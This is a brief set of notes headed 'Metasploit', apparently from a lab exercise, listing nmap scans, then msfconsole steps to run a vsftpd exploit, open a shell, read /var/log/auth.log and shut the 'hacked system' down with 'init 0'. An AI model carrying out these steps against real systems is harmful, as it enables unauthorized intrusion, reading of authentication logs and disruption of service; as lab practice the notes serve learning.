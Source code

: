 # Metasploit
# nmap -sn ip/24 
# nmap meta ip 
# nmap -sU ip 
# ftp ip 
# nmap ip 
# nmap -O ip 
# msfconsole ---> 
# search vsftpd 
# use link 
# show options 
# set Rhosts ip 
# show options 
# exploit 
# shell to acess the system 
# then enter cat /var/log/auth.log 
# init 0 ---------> shut down the hacked system
